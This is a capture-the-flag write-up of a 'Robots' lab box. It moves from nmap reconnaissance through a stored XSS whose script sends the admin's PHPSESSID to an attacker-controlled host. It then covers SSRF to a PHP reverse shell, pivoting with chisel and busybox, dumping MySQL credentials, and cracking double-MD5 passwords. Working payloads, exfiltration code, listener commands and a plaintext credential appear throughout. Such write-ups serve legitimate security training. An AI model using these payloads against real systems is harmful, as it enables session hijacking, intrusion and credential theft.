Reconnaissance
Full TCP sweep with service and script scanning. -Pn because the box doesn't answer ping, and the target is pinned to robots.thm in /etc/hosts first so name-based virtual hosting resolves.
shell
echo "10.10.78.224 robots.thm" | sudo tee -a /etc/hosts
sudo nmap -T4 -n -sC -sV -Pn -p- robots.thmPort 80's root returns 403 Forbidden, 9000 is a stock "It works" default page, and nmap's http-robots.txt script has already done the interesting part: three disallowed entries, all phrased as Asimov's Three Laws of Robotics.
nmap — http-robots.txt
| http-robots.txt: 3 disallowed entries
|_/harming/humans /ignoring/human/orders /harm/to/self
A robots.txt exists to keep crawlers out of paths, which is precisely why it's the first place to look manually — it's a hand-written index of what the owner considered worth hiding. Two of the three dead-end at 403.

/harm/to/self/ is reachable.Enumerating /harm/to/self/
The one reachable path is where the application actually lives. Two files matter immediately.
server_info.php — a full phpinfo() leak
/harm/to/self/server_info.php renders a complete phpinfo() page. No credentials, but excellent fingerprinting: PHP 8.3.10, Apache 2.0 Handler, build system "Linux — Docker", and the loaded extension list includes pdo_mysql and sodium. A PHP + MySQL backend running inside a container — remember the "Docker" line; it explains a lot later.

pdo_mysql ini file — the stack is already described for us.register.php — the room hands you the password scheme
The registration page states its own rules: "An admin monitors new users. Your initial password will be md5(username + ddmm)", with a username field and a date-of-birth field.

md5(username+ddmm)" — invites a brute-force. The quiet one — "an admin monitors new users" — describes a human who will view attacker-controlled data. The quiet hint is the real vector. I chased the loud one first anyway.Rabbit Hole — Brute-Forcing admin's Password
The reasoning felt airtight: if every password is md5(username + ddmm), then admin's password is md5("admin" + birthday), and a birthday is only ever one of 366 ddmm values (I generated both ddmm and mmdd orderings, ~600 candidates). Register a known account first to learn what a successful login looks like — a 302 to index.php — then fire every candidate at login.php and compare.
exploit.py — admin brute-force (dead end)
import hashlib, requests
URL = "http://robots.thm/harm/to/self/login.php"
TARGET = "admin"
def md5(t): return hashlib.md5(t.encode()).hexdigest()
def dates():
out = set()
for m in range(1, 13):
for d in range(1, 32):
out.add(f"{d:02d}{m:02d}"); out.add(f"{m:02d}{d:02d}")
return sorted(out)
def login(u, p):
r = requests.post(URL, data={"username": u, "password": p, "login": "Submit Query"},
allow_redirects=False, timeout=10)
return (r.status_code, r.headers.get("Location", ""))
# success == (302, 'index.php'), failure == (200, '')
for date in dates():
if login(TARGET, md5(TARGET + date)) == (302, "index.php"):
print(f"[+] FOUND {date}"); break
Stored XSS → Admin Session Theft
The username I register is displayed back inside the admin's review panel. If it's rendered without encoding, the username field is a stored-XSS sink. So register an account whose username is a script tag pulling in external JS from my box:
username field — XSS payload
<script src="http://192.168.146.233:8002/legit_user.js"></script>The catch: config.php sets session.cookie_httponly = 1, so document.cookie is off the table — the session cookie is invisible to JavaScript. But HttpOnly only stops JS from reading the cookie object; it does nothing to stop the browser from sending the cookie on a same-origin request. So instead of stealing the cookie, I make the admin's own browser fetch a page that echoes the session id back in its body, and exfiltrate that. server_info.php (phpinfo) dumps every cookie into the page, including PHPSESSID. (technique via HackTricks — "steal page content")
legit_user.js
var url = "http://robots.thm/harm/to/self/server_info.php";
var attacker = "http://192.168.146.233:8002/exfil";
var xhr = new XMLHttpRequest();
xhr.onreadystatechange = function() {
if (xhr.readyState == XMLHttpRequest.DONE) {
var match = xhr.responseText.match(/PHPSESSID=([a-zA-Z0-9]+)/);
if (match) fetch(attacker + "?cookie=" + match[1]);
}
};
xhr.open('GET', url, true);
xhr.send(null);
Host the payload and catch the callback with a single static server:
attack box
python3 -m http.server 8002
legit_user.js, then it calls back with the stolen PHPSESSID in the query string./exfil is expected and harmless. http.server has no such route, but it logs the full request line before answering — the cookie in the query string is already captured. No need for a real endpoint.Drop the stolen PHPSESSID into the browser (dev tools → Storage → Cookies) and reload index.php. Now authenticated as admin, with a "Last logins" panel — and every injected username plainly visible in the list, confirming the stored-XSS sink.

<script src> usernames the panel tried to display. The sink is confirmed.SSRF → Reverse Shell as www-data
The admin panel exposes a "Test url" utility (admin.php) that fetches an arbitrary URL server-side and prints the response. That's textbook SSRF — and because the fetch originates from the server, first confirm it by pointing it at a local file via the file:// handler:

file:///etc/passwd to the "Test url" field proves the fetch runs on the server, not the client.An SSRF that fetches arbitrary URLs is one short step from RCE: point it at a PHP reverse-shell hosted on my box. The server retrieves it over HTTP and — because the fetch is server-side and PHP is the runtime — executes it.
attack box — host payload + listener
# serve a standard php-reverse-shell (set $ip/$port inside it)
python3 -m http.server 8004
# catch the callback
nc -lvnp 7777
Submitting the request lands a shell:
nc — listener
Connection received on 10.112.165.14 46008
Linux robots.thm 5.15.0-118-generic #128-Ubuntu ... x86_64 GNU/Linux
uid=33(www-data) gid=33(www-data) groups=33(www-data)
www-data. Note the mismatch — Ubuntu kernel, Debian 12 userland — the classic sign of a container on a different host OS.wget, no nc, no ping, no ss, no ip. It's a minimal PHP container, and the OS mismatch (Debian 12 userland on an Ubuntu kernel) confirms it. Escaping and pivoting from here will mean bringing my own tools.Loot — config.php and a Hostname Named "db"
container — www-data
cat config.php
httponly setting that shaped the XSS, and one detail that changes everything: $servername = "db".Credentials in hand: robots / q4qCz1OflKvKwK4S, database web. My first instinct was that db was just a local alias — but $servername = "db" in a config that phpinfo already told us was built under Docker is a strong tell. db is a Docker Compose service name, resolved by the internal Docker DNS to a separate container. Confirming with /etc/hosts shows this container is 172.18.0.3 — and db is somewhere else on that bridge network, unreachable from my attack box directly.
$servername = "db" (or "mysql", "redis", "backend") in a leaked config is a fingerprint of Docker Compose. The database isn't on localhost — it's another container on a private bridge network. Expect to need a pivot rather than a direct connection.Pivoting to the Internal MySQL Container
To reach db I need two things the container doesn't have: a way to scan the internal subnet, and a tunnel back through the web container to my box. Both get uploaded over the attack box's own HTTP server with the one download tool that is present — curl.
attack box — serve tooling
# static busybox for a working nc, and the chisel client binary
wget https://busybox.net/downloads/binaries/1.35.0-x86_64-linux-musl/busybox -O busybox
python3 -m http.server 8001container — pull tooling via curl
curl -o /tmp/chisel http://192.168.128.12:8001/chisel && chmod +x /tmp/chisel
curl -o /tmp/busybox http://192.168.128.12:8001/busybox && chmod +x /tmp/busyboxcurl of a bare filename that didn't exist on the server saved the 404 HTML page as /tmp/nc — file /tmp/nc reported "HTML document, ASCII text". A downloaded "binary" that won't run is often just a saved error page. Serve the right file and re-check.With busybox's nc (which reports open, not GNU netcat's succeeded), sweep the /24 for anything listening on 3306:
container — internal port sweep
for i in $(seq 1 254); do
/tmp/busybox nc -zw1 172.18.0.$i 3306 2>/dev/null && echo "172.18.0.$i:3306 OPEN"
done
172.18.0.2:3306 OPEN
.3; the real MySQL is 172.18.0.2. The missing standard tools and the saved 404-as-nc are all visible here.The database is 172.18.0.2, not .3 (that's the web container itself). Start the chisel server on the attack box and dial back a reverse tunnel that forwards my local 3306 straight to the DB container:
attack box
./chisel server --reverse --port 51234container
/tmp/chisel client 192.168.128.12:51234 R:3306:172.18.0.2:3306R:3306:172.18.0.3:3306 — this container's own IP. nc -zv 127.0.0.1 3306 reported success, but no MySQL greeting banner ever arrived, because nothing listens on .3:3306. Always confirm a protocol-level response — e.g. timeout 3 nc 127.0.0.1 3306 | xxd | head should show a MySQL handshake — before trusting a tunnel end-to-end.Database → rgiskard's Credentials
Through the tunnel, connect as if MySQL were local:
attack box — through the tunnel
mysql -h 127.0.0.1 -P 3306 -u robots -p
# password: q4qCz1OflKvKwK4S
MariaDB [(none)]> use web;
MariaDB [web]> SELECT * FROM users;
<script> usernames are stored verbatim (rows 3 and 7) — proof the field was never sanitised. Row 2, rgiskard, is the target.The users table stores rgiskard with hash dfb35334bf2a1338fa40e5fbb4ae4753. It's not a plain md5(username+ddmm) — the app double-hashes: md5(md5(username + ddmm)). Same date space as before (366 candidates), so the same offline loop cracks it in milliseconds, this time hashing twice before comparing:
hash.py — crack double-MD5
import hashlib, sys
user, target = sys.argv[1], sys.argv[2]
for d in range(1, 32):
for m in range(1, 13):
ddmm = f"{d:02d}{m:02d}"
first = hashlib.md5((user + ddmm).encode()).hexdigest()
if hashlib.md5(first.encode()).hexdigest() == target:
print(f"[+] {user}{ddmm} -> md5={first}"); sys.exit()attack box
python3 hash.py rgiskard dfb35334bf2a1338fa40e5fbb4ae4753
[+] rgiskard2209 -> md5=b246[...redacted...]The recovered password is the single-MD5 pre-image the app used as the actual login secret — md5("rgiskard" + "2209"). It's reused for SSH.
attack box
